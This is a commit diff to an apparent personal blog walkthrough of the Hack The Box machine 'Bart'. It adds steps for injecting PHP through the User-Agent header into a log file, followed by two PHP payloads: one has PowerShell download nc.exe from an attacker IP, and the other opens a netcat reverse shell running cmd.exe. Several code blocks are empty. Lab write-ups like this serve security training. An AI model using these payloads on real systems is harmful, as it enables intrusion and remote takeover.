

Before and after one commit to 1n4r1/1n4r1.github.io, a Jekyll site: the page built from _posts/2019-10-08-Hackthebox-Bart-Walkthrough.md, in a window 1280 px wide and 1400 px high, scrolled down 8452 px. Shown: the whole window at 82% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; a style sheet for code colours, icons or effects is not loaded; before the commit the page ends 9193 px from its top, so only the background shows below that; some of the changed text lies outside the part shown.

Commit message:
WIP bart-walkthrough

```diff
--- a/_posts/2019-10-08-Hackthebox-Bart-Walkthrough.md
+++ b/_posts/2019-10-08-Hackthebox-Bart-Walkthrough.md
@@ -253,6 +253,37 @@ By registering, we can log in to the website.
 Then, click the "log" link. we can see something like web application log.
 ![placeholder](https://inar1.github.io/public/images/2019-10-08/bart-badge.png)
 
+By looking at the HTML source code, we can find an interesting link.<br>
+Looks like possible LFI or something.
+{% highlight shell %}
 
+{% endhighlight %}
 
-### 3. Getting Root
+Then, try to look at the file "log.txt".<br>
+Sounds like kind a log of Web server but only user agent is there.
+![placeholder](https://inar1.github.io/public/images/2019-10-08/bart-badge.png)
+
+This means, by putting a PHP code in User-agent, it's possible to run arbitrary code.<br>
+At the same time, we may notice this application is ran by NT authority.
+![placeholder](https://inar1.github.io/public/images/2019-10-08/bart-badge.png)
+
+After that, by using following commands, try to get a reverse shell.
+Running simple HTTP server host nc.exe:
+{% highlight shell %}
+
+{% endhighlight %}
+
+PHP payload to upload nc.exe to Bart.
+{% highlight shell %}
+<?php echo exec("powershell -command \"(New-Object System.Net.WebClient).DownloadFile('http://10.10.15.171:7777/nc.exe','nc.exe')\""); ?>
+{% endhighlight %}
+
+Running netcat listener:
+{% highlight shell %}
+
+{% endhighlight %}
+
+PHP payload to get reverse shell.
+{% highlight shell %}
+<?php exec("nc.exe 10.10.15.171 6667 -e cmd.exe"); ?>
+{% endhighlight %}
```
Also changed, not shown: other parts of _posts/2019-10-08-Hackthebox-Bart-Walkthrough.md (+1 -1 lines).
